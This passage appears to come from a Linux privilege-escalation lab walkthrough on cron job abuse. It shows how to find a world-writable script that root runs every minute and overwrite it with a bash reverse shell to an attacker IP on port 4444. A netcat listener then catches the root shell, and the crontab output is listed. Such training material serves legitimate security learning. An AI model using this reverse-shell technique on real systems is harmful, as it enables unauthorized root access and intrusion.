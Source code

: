 There should be two cron jobs scheduled to run every minute. One runs overwrite.sh, the other runs /usr/local/bin/compress.sh.

Locate the full path of the overwrite.sh file:

~~~
locate overwrite.sh
~~~

Note that the file is world-writable:

~~~
ls -l /usr/local/bin/overwrite.sh
~~~

Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your Kali box.

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

~~~
nc -nvlp 4444
~~~

**Remember to exit out of the root shell and remove the reverse shell code before continuing!**

## #1 - Read and follow along with the above.

~~~
user@debian:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
~~~
